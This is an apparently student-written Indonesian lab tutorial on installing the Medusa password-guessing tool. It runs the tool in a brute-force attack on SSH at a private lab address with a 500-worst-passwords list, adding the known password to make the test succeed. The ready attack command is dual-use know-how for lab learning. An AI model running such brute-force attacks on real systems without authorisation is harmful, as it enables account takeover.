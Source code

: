 ## DEPENDENCY

* OpenSSL
* LibSSH2
* NCPFS
* LibPQ
* Subversion
* afpfs-ng

Jika bekum memiliki dependency terebut maka medusa tidak dapat diinstall, berikut command install seluruh dependency :

```
sudo add-apt-repository "deb http://archive.ubuntu.com/ubuntu/ wheezy universe multiverse"

sudo apt-get update

sudo apt-get install build-essential make patch subversion openssl libssl-dev libncp-dev libpq-dev libgcrypt11-dev libgnutls-dev libsvn-dev zlib1g-dev libssh2-1-dev libnl-dev gettext autoconf tcl8.5 libpcap0.8-dev python-scapy python-dev cracklib-runtime macchanger-gtk tshark ethtool
```

## INSTALASI MEDUSA

* **Step 1**    : Download package medusa dari [foofus.net/goons/jmk/medusa/medusa.html](http://foofus.net/goons/jmk/medusa/medusa.html)

  ```
  wget http://www.foofus.net/jmk/tools/medusa-2.2.tar.gz
  ```

* **Step 2**    : Untuk menkonfigurasi, compile dan menginstall Medusa, ketik kode berikut di terminal:

  ```
  tar -zxvf medusa-2.2.tar.gz
  cd medusa-2.2
  ./configure
  make
  make install
  ```

## UJI COBA

Pertama, Siapkan file yang terdiri dari kumpulan password yang dipisahkan oleh baris atau download [disini](/assets/ncrack-hydra/500-worst-passwords.txt). Pada uji coba kali ini, kita akan mencoba melakukan _brute force attack_ pada protokol SSH ke ip address `192.168.56.202` dengan asumsi username `pksj` dan list password menggunakan file yang telah disiapkan

**Command**:

```
medusa -h 192.168.56.202 -u "pksj" -P 500-worst-passwords.txt -M ssh
```

-h adalah host, -u adalah user -P adalah list passwordnya, -M adalah module nya. Man page bisa dilihat [disini](http://www.irongeek.com/i.php?page=backtrack-r1-man-pages/medusa)

Lalu tunggu hasilnya

![](/assets/medusa-hasil1.PNG)
  
Uji coba gagal karena password yang digunakan tidak berada dalam file [500-worst-passwords.txt](/assets/ncrack-hydra/500-worst-passwords.txt),

Untuk keberhasilan uji coba kali ini, kita tambahkan password yang digunakan dengan cara:

```
echo "pksj" >> 500-worst-passwords.txt
```

Lalu uji coba lagi

![](/assets/medusa-hasil2.PNG)

## KESIMPULAN

Dengan uji coba yang telah dilakukan, Medusa dapat berhasil menyerang protokol ssh dengan _brute force attack_ jika password dari target terdapat didalam file password yang dibuat oleh penyerang dengan waktu 2 menit. Jika password tidak terdapat dalam file, maka serangan akan gagal.

